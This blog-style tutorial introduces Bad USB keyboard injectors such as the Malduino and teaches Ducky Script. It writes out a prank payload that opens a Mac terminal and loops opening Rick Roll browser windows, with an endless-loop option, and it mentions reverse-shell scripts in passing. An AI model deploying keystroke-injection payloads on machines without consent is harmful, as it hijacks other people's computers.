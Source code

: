 ```yaml
---
title: "Introduction to Keyboard Injectors with Rick Astley"
date: 2020-02-11
category: "hardware"
excerpt: "Launch a Rick Roll bomb on your computer today!"
---
```




# DISCLAIMER:
Code in this project utilizes your browser for purposes it was not intended for. Do not plug a bad USB into any computer without the proper permissions from its owner.


## Bad USBs:
A "Bad USB" is a USB drive designed to perform malicious actions when plugged into a USB socket. This can range from frying a motherboard with a high-voltage discharge to gaining a remote backdoor.


## Keyboard Injectors
A Keyboard injector is a USB stick programmed to initiate keystrokes at superhuman speeds when plugged in.

![Keyboard-Injector](/images/injector.gif){:class="img-responsive"}

One such device is the [Malduino](https://maltronics.com/collections/malduinos) by Maltronics.

The Malduino Elite has 4 switches corresponding to binary values 1 and 0. Depending on the switch combination, a particular script stored on the micro sd card will execute. For example, 1010.txt for gaining a reverse shell and 1110.txt for DNS poisoning.  
![malduino](/images/malduino_img.jpg){:class="img-responsive"}
## Ducky Script Basics
The Malduino uses a scripting language called ducky script.

### DELAY
DELAY adds a pause in milliseconds to the script. This is useful if you want to give a process time to finish before executing the next line. The following is a delay of 1 second:
```
DELAY 1000
```
### STRING and ENTER
STRING is used to simulate characters typed on the keyboard. For example, 
```
STRING Hello!
```
would simulate the user typing "Hello!" on the keyboard. 
ENTER emulates the enter key.
```
STRING Hello!
ENTER
```
This will become useful once you need to navigate cmd/terminal or a built in search such as Spotlight.
### GUI
GUI simulates the Super key. This would be the command key on Mac and the Windows key on Windows. With this you gain access to various keyboard shortcuts.
```
GUI r
STRING cmd
ENTER
```
This script uses the Windows-key+r shortcut to pull up the Windows' “Run” box, type out cmd, and hit enter.
## The Script:
Firstly, access a shell using the methods mentioned above. For Mac, access spotlight then navigate to the terminal with the proper delay times (tweak delays so script runs as fast as possible). 
```
DELAY 2000
GUI space
DELAY 500
STRING terminal
DELAY 500
ENTER
```
Next, access a bash shell, in case bash isn't the default shell, and write out the script
*The delays are too long. Make sure to tweak them for efficiency*
```
DELAY 500
STRING bash
DELAY 500
ENTER
```
Create a loop to successively open browser windows, where `N` is the number of Windows to open.
```
STRING N=0
DELAY 500
ENTER
DELAY 500
STRING while [ $N -le 5 ]; do
DELAY 500
ENTER
```
*Use this to open an endless amount of brower windows*

```
STRING while: do
```
Use `open` in bash to open a browser with the specified link. The process may be slightly different on Windows, but the idea is still the same.
```
DELAY 500
STRING open https://www.youtube.com/watch?v=dQw4w9WgXcQ
DELAY 500
ENTER
DELAY 500
STRING N=$(( $N + 1 ))
DELAY 500
ENTER
DELAY 500
STRING done
DELAY 500
ENTER
DELAY 500
```
